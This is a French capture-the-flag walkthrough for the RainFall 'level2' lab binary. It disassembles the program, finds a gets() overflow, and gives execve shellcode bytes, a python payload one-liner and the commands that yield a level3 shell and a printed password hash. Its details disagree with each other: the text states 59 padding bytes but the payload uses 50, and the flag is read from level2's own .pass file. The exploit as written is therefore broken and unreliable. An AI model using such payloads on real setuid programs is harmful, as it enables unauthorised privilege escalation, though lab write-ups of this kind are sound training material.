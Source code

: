 ## `Level2`

## Introduction

Nous avons un exécutable `level2` avec les droits suivants :

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Lorsque nous l'exécutons, il semble doubler l'entrée standard comme un effet miroir.

```bash
level2@RainFall:~$ ./level2 
ls
ls
```

Nous allons analyser et décompiler l'exécutable pour comprendre son comportement et identifier une éventuelle vulnérabilité.

## Analyse et Décompilation

### Fonction `main`

Après décompilation, nous observons que la fonction `main` appelle la fonction `p` :

```assembly
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```

### Fonction `p`

La fonction `p` contient une vulnérabilité due à l'utilisation de `gets`, ce qui permet un débordement de tampon. Voici le désassemblage de la fonction `p` :

```assembly
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```

### Vérification d'adresse

Il y a une vérification sur les adresses allant de `0xb0000000` à `0xbfffffff`, empêchant ainsi l'utilisation de la pile pour stocker le shellcode. 

## Utilisation du tas (heap)

Nous pouvons utiliser le tas (heap) pour stocker notre shellcode. La fonction `strdup` utilise `malloc`, qui alloue la mémoire dans le tas. Nous voyons que `malloc` retourne toujours l'adresse `0x804a008` :

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                              = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                   = 0xbffff70c
puts("")                                                        = 1
strdup("")                                                      = 0x0804a008
+++ exited (status 8) +++
```

Nous pouvons essayer de copier un shellcode dans le tas et utiliser l'adresse allouée par `malloc` comme adresse de retour.

### Shellcode

Nous le trouvons sur ce site : https://shell-storm.org/shellcode/files/shellcode-575.html

Nous utiliserons le shellcode suivant de 21 octets :

```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

## Construction du payload

Notre shellcode fait 21 octets de long. Nous devons remplir avec des données arbitraires jusqu'à 80 octets, puis les 4 derniers octets pour l'adresse de retour.

### Payload final

Le buffer d'attaque final sera structuré comme suit :

- Shellcode : 21 octets
- Remplissage de données arbitraires : 59 octets
- Adresse de retour : 4 octets

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 50 + "\x08\xa0\x04\x08"' > /tmp/exploit
```

### Exécution de l'exploit

```bash
level2@RainFall:~$ cat /tmp/exploit - | ./level2
```

## Accès au Shell

Un shell est accessible ensuite :

```bash
level2@RainFall:~$ pwd
/home/user/level2
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
level2@RainFall:~$ whoami
level3
level2@RainFall:~$ cat /home/user/level2/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Conclusion

Nous avons réussi à exploiter la vulnérabilité de débordement de tampon dans `level2` en utilisant le tas (heap) pour stocker notre shellcode et en écrasant l

'adresse de retour pour pointer vers cette région. Cela nous a permis d'exécuter le shellcode et d'obtenir un shell avec les privilèges de `level3`, nous permettant de lire le flag pour le niveau suivant.

Level2 passé avec succès !
